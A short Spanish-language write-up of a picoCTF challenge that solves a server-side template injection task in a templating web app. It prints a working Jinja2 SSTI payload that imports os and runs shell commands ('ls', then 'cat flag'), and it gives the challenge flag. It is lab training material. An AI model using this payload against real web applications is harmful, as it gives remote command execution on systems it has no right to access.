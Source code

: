 ## Descripción
I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:53586/)!
## Pistas
1. Server Side Template Injection
## Solución 1
1. Entrar a la pagina y verificar si se puede hacer SSTI intentando una operacion matematica entre corchetes `{{8*8}}`
2. Usando este código podemos ver los archivos `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`
3. Sustituimos `ls` por `cat flag`
4. Obtenemos la bandera `# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}`

## Referencias
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/